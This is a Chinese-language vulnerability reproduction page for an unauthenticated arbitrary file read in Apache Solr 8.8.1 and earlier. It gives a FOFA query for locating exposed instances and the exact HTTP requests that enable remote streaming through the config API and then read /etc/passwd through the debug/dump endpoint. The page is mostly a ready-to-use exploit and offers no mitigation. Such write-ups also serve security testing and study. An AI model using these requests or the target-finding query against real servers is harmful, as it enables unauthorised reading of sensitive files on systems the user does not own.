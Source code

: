 ```yaml
---
title: Apache Solr config 任意文件读取漏洞
---
```


# Apache Solr config 任意文件读取漏洞

## 漏洞描述

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件

## 漏洞影响

<a-checkbox checked>Apache Solr <= 8.8.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 漏洞复现

访问 Solr Admin 管理员页面

![deaf982e-2ddb-4021-9b5b-21ac946a910a](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/deaf982e-2ddb-4021-9b5b-21ac946a910a.png)

获取core的信息

```
/solr/admin/cores?indexInfo=false&wt=json
```

![image-20220307142829893](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220307142829893.png)

发送请求

```
POST /solr/core/config 
Content-Type: application/json

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

再进行文件读取

```
POST /solr/core/debug/dump?param=ContentStreams 

stream.url=file:///etc/passwd
```

![image-20220307142740665](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220307142740665.png)
